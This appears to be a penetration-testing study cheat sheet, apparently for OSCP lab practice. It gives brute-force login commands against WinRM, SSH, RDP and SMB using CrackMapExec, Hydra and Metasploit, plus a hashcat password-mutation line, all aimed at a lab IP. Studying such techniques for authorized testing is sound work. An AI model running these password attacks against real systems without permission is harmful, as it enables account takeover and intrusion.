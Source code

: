 # Network Services

## Windows

### WinRM

**CrackMapExec**

```shell-session
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

eg.

```shell-session
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

### SSH

**Hydra - SSH**

```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```

### Remote Desktop Protocol (RDP)

**Hydra - RDP**

```shell-session
hydra -L user.list -P password.list rdp://10.129.42.197
```

### SMB

**Hydra - SMB**

```shell-session
hydra -L user.list -P password.list smb://10.129.42.197
```

> using hydra in some cases we might get an&#x20;
>
> ```shell-session
> [ERROR] invalid reply from target smb://10.129.42.197:445/
> ```
>
> error. We can solve this by updating our `hydra` or use another tool for this purpose.

<mark style="color:red;">**Metasploit Framework (Allowed only once in OSCP so use it wisely)**</mark>

```shell-session
msf6 > use auxiliary/scanner/smb/smb_login
```

> After cracking successfully we can access the SMB share via `CrackMapExec` or `smbclient`.

### Mutating passwords

```shell-session
 hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```







